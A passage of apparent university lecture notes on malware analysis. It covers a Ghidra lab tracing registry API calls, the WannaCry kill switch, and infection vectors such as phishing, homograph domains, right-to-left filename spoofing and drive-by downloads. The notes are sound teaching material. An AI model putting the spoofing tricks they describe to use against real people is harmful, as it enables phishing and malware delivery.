  
\includegraphics[width=\linewidth]{lab2 ghidra reg api.png}
\end{figure}

Examining the APIs shows those associated with registry access, such
as RegCreateKeyW and RegSetValueExA.

We can use Ghidra to find their references
and understand how the malware interacts with the registry


\subsubsection{Registry Access and Symbol References}
Malware often uses
the registry to store persistence and configuration data, so these are valuable
questions to ask and investigate.

Microsoft Documentation has a comprehensive listing of documentation on Microsoft APIs. Most of the APIs are named
very descriptively, but understanding details about their inputs (arguments)
and outputs (return values) is incredibly helpful to the code analysis process

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{lab2 reg symb ref.png}
\end{figure}

In ghidra, you can filter the symbols for 'reg'. For RegCreateKeyW, you will
be able to see two references (Call and Data). The CodeBrowser can show the
reference  which is essentially a function call.

PUSH instructions above a CALL usually represent arguments
passed to the called function. This could be a value or a
path, often used by malware to configure persistence

At address 00401cfb, we have the instruction push 80000001h. Ghidra’s
auto comments tell us this corresponds with the hKey parameter to RegCreateKeyW.
The operand to this PUSH instruction represents a symbolic constant.

It is a hexadecimal representation of a constant string value that the developer would have
specified in the source code.

To determine what this value corresponds to, we can search through Microsoft
Documentation for its description of function parameters and find that it
relates to HKEY\_CURRENT\_USER.

Ghidra can help convert some numerical values back to their
constant strings.

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{lab2 ghidra strings.png}
\end{figure}

Equating it to HKEY\_CURRENT\_USER, a known registry hive, displays
the constant value instead of the numerical value, making the code
more readable.

When performing code analysis and disassembly if you run
through these values and are not sure what to equate it to,
research the API on Microsoft Documentation to assist with
your decision.

\subsubsection{Exercise 2}

At 00401d0c, we have a JZ instruction, which jumps if zero. To determine
what the jump is evaluating, look above it in the code for an instruction that
performs a comparison. The TEST and CMP instructions are often used for this
purpose.

At 00401d0a, we have a test eax, eax instruction that performs a
bitwise AND of EAX with itself. As a reminder, EAX is often where return values
are stored.

Since the CALL to RegCreateKeyW occurs immediately before the
TEST and JZ instructions, these instructions likely evaluate the result (of the call).

A Microsoft Documentation lookup informs us that an unsuccessful call to
RegCreateKeyW results in a nonzero error code, whereas a successful call results
in a zero-error code.

Returning to the TEST and JZ instructions, we can describe the condition as
follows: ”Jump to address 00401dad if EAX is zero.” A zero-return value
indicates success. If the call is successful, the code continues executing at
00401dad,
where it will eventually update the registry.

If the condition is not met, execu-
tion will continue at 00401d12 and eventually execute the unconditional jump
to 00401d9e, close the registry key, and exit the function.

We can add comments to the code in ghidra, to help reading;\\
"Assess if the call to RegCreateKeyW is successful"

\subsubsection{Exercise 3}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{lab2 ghidra FUN 00401c70.png}
\end{figure}

For function FUN 00401c70, the instruction at address
00401c88 (XOR EAX, EAX) essentially sets EAX to 0.

For the loops in the same function, rep repeats a string operation ecx times.
Movsd moves a doubleword at DS:ESI to ES:EDI.

Ghidra shows arrows on the left, arrows going backwards likely indicate a loop\\
The prologue is obfuscated\\
The epilogue is at 00401dc7

\subsubsection{WannaCry Kill Switch}
The WannaCry kill switch emerged as a crucial factor in mitigating the
devastating impact of the WannaCry ransomware attack in May 2017. This cyberattack
was notable for its widespread damage, targeting computers worldwide by
exploiting vulnerabilities in Microsoft Windows operating systems.

The unique
aspect of WannaCry was its built-in mechanism: before proceeding with
encrypting a victim’s files, the ransomware would attempt to connect to
a specific, unusually long, and unregistered domain name.

This feature was not typical behavior for ransomware and caught the attention
of cybersecurity researchers.

The kill switch was discovered accidentally by a cybersecurity researcher
who, upon analyzing the ransomware, noticed its attempt to contact this
obscure domain. Intrigued, the researcher registered the domain.

This action,
though simple and inexpensive, had significant consequences. It turned out
that the ransomware was programmed to cease its operations if it could
establish a connection to this domain.

By registering it, the researcher inadvertently
activated a fail-safe mechanism within WannaCry. This meant that the
ransomware, upon receiving a response from the now-active domain, halted its
process of encrypting new files and spreading to other systems.

Essentially, the
malware was tricked into believing it was in a controlled environment, like a
sandbox used for analysis, which prompted it to stop its malicious activities.

The kill switch was not a permanent solution to the WannaCry
threat. It slowed the spread of this specific variant,
giving organizations time to secure their systems with updates
and patches. However, other variants of WannaCry,
especially those without this domain-checking mechanism,
continued to pose a threat.

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{lab2 kill switch.png}
\end{figure}

\chapter{Lecture 3 - Malware Functionalities}

\section{Infection Vectors}
An infection vector is the method that malware uses to propagate itself or infect a computer

Examples:\\
• social engineering:\\
• e.g., phishing, spearphishing (typically, via email)\\
• malvertisting, drive-by-download\\
• client/server vulnerabilities\\
• compromised accounts\\
• trusted relations\\
• compromised supply chains\\
• removable drives\\
• social networks, P2P\\
• etc. etc.

\subsection{Phishing}
\colorbox{green}{Phishing} is the act of \colorbox{yellow}{impersonating a legitimate entity}, typically a web site associated with a
business, to obtain information such as passwords, credit card numbers, and other private
information without authorization

A typical phishing attack requires that the attackers create a web site displaying a page
that looks like it belongs to a bank

when victims visit the web site, they will believe they are at the bank’s web site and not the false one

The attacker then creates an email that instructs the recipient to click on an enclosed link to go
to the bank’s home page

But the displayed URL is that of the real bank, and the underlying link that of the fake bank

The user clicks on the link, is taken to the fake page, and enters the name and password

The attacker saves these for later use

\subsubsection{Example: Homograph Attacks}
From a security perspective, Unicode domains can be problematic because many \colorbox{yellow}{Unicode}
\colorbox{yellow}{characters are difficult to distinguish}

e.g. apple.com uses the Cyrillic a (U+0430) rather than the ASCII a (U+0061)

this is known as a \colorbox{green}{homograph attack} (or homoglyph attack)

With punycode, (Unicode) domain names are represented using a format based on ASCII
characters (Letter-Digit-Hyphen (LDH) subset) (e.g., xn–pple-43d.com)

The homograph protection mechanism in browsers unfortunately fails if every character is
replaced with a similar character from a single foreign language

The domain apple.com, registered as xn–80ak6aa92e.com, bypasses the filter by only using
Cyrillic characters

\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{phishing_homograph1.png}
  
\includegraphics[width=.8\linewidth]{phishing_homograph2.png}
\end{figure}

\subsubsection{Spearphishing}
\colorbox{green}{Spearphishing} is a \colorbox{yellow}{phishing attack tailored for a particular victim}

\subsubsection{Spam Email}
\colorbox{yellow}{E-mails including a link} (e.g., to Dropbox).

\colorbox{yellow}{or attachment} (’invoice’, ’internal’) to a malware.

.scr disguised as .pdf (hidden extension and/or Unitrix exploit):\\
Unicode U+202E: e.g., photoCollgpj.exe → photoCollexe.jpg

\newpage

Example;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{redaman_malspam_infection_chain.png}
\end{figure}

\subsection{Web Vulnerabilities}

\colorbox{green}{Malvertising} (malicious advertising): there are several ways threat actors can \colorbox{yellow}{place a malicious}
\colorbox{yellow}{advert}, e.g.:\\
• compromising a legitimate advertiser/ad agency account, or even their server\\
• registering a new account on an ad platform and serving malicious code\\
• pretending to be an agency or representative of a legitimate brand

\colorbox{green}{Compromised websites}:\\
• malicious scripts injected (SQL injection, XSS)\\
• credential compromised

Code hosted on malicious site: e.g., through URL redirection

\colorbox{green}{Drive-by-download}: \colorbox{yellow}{unintentional download of malicious code}\\
• typically take advantage of an app, operating system, or web browser that contains security flaws
due to unsuccessful/lack of updates

E.g., malware is automatically downloaded and executed when a user visits a compromised site

Exploiting APIs for browser plugins to enable the downloading and execution of arbitrary files\\
Exploiting vulnerabilities in the web browser or plugins

\begin{figure}[H]
  \centering
  
\includegraphics[width=.5\linewidth]{drive by download.png}
\end{figure}

\colorbox{green}{Watering hole attack}: \colorbox{yellow}{infecting websites} which are \colorbox{yellow}{known to be visited by the targeted victim}

\subsubsection{Common Delivery Channels}

Opening a phishing email usually is not enough to get a user infected with malware\\
• Typically, users must open an infected attachment or click a malicious link that takes them to a compromised website\\
• Once action is taken, the malware is delivered\\
• Common malware delivery channels are:\\
• Windows macros and scripts\\
• Exploit kits\\
• Fileless malware\\
• (and others...)


Examples;
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{web vuln example.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{web vuln example 2.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{web vuln example 3.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{web vuln example 4.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{web vuln example 5.png}
\end{figure}
\begin{figure}[H]
  \centering
